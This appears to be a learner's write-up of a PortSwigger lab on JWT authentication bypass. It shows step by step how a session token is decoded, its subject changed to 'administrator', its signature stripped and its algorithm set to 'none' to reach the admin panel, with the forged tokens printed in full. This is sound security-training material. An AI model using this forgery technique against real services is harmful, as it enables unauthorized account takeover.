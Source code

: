 Title: JWT authentication bypass via flawed signature verification
Desc:  This lab uses a JWT-based mechanism for handling sessions. The server is insecurely configured to accept unsigned JWTs.
To solve the lab, modify your session token to gain access to the admin panel at /admin, then delete the user carlos.
You can log in to your own account using the following credentials: wiener:peter 

I get the session cookie: eyJraWQiOiIzMzY3NGI2MC0wYmQxLTRlMGYtOWY5YS1kODkyYTFjM2NiNjEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MzMzODM4OSwic3ViIjoid2llbmVyIn0.DIA9XfHnosVjXxGM3b1NYOwQrppAJWuSZSKVCWMHzEwyAYTnP_YDEeKDmIrk_LmyTQN_2_rKGybreLHQZlHWEvIpR0QGqtzShCO1Xyib36xRvPdAcZ2cCz8ZsYz0s3F2pt1TGVEs2G4t-N0h_ay1dwW5ARss3wHFXD29DXDJwcKYw7nsvsDsE1Z_76_apbS-rZ8sgbIUMC6-3nTHg6FhbWjRDBsqnp_ti7Dqmwd1iIjPC_R1NAxguWcn_e-dCMmo7QOezP7Zjiwj8FXidGYEjZYp6V1SAxPbGXUvCG-McXKrrJ6z5egn1MnS5O7DMurNmRZTIvLf6jguWjUsAefIvw
Try to decode it - for example here https://token.dev/

![Zrzut ekranu 2025-03-30 134109](https://github.com/user-attachments/assets/87806579-8380-4b33-a28e-a724ed7749b2)

"/admin" resource is available only for user administrator, so I try to change jwt token and encode:
eyJraWQiOiIzMzY3NGI2MC0wYmQxLTRlMGYtOWY5YS1kODkyYTFjM2NiNjEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MzMzODM4OSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.YgWov8BcU43weHosS2CIEAiplLPWcaU06dVCgea1ukIpw77A0Y1obYFpVttSzQw3FFS4avY5A5JvLE7fmNiOL0UPHlFqMdDGsGFRdFOh0gCcav9K1JXNZDGXqTzsQry7A3lmPp7c6VXBokLGtbzbtZqft-CLNNo-j_RMn88ryd3-4G7oRlf6nGo8vxkutwj3op85UfBIdMLlGL3NfvC_PRd0xqSksk1tniLvETeNgPksUGqBfqNbWQbzMNDtnwBlUGHDu_0fprMYoCuFza--KQ2izWpxINukVS_alLQrJi-Y_tmC9JAy9SpiYCW4BGYLC6Jm2hIdkrst5aHnrNWFcg

When I try to use token with unproperly signed signature I get no proper output from the app, but I try to delete signature part from the token: 
![image](https://github.com/user-attachments/assets/c97b8c86-195f-4dcb-a176-8e62a4e92a39)


eyJraWQiOiIzMzY3NGI2MC0wYmQxLTRlMGYtOWY5YS1kODkyYTFjM2NiNjEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MzMzODM4OSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9

I set algorithm as None
eyJraWQiOiIzMzY3NGI2MC0wYmQxLTRlMGYtOWY5YS1kODkyYTFjM2NiNjEiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MzMzODM4OSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9

I had some issues here, but tutorial helps me a lot: "In the message editor, remove the signature from the JWT, but remember to leave the trailing dot after the payload. "

So, I've added a dot at the end: 
eyJraWQiOiIzMzY3NGI2MC0wYmQxLTRlMGYtOWY5YS1kODkyYTFjM2NiNjEiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MzMzODM4OSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.
![image](https://github.com/user-attachments/assets/04dc3014-9557-455f-91af-48339a24a41a)


And we are an admin!
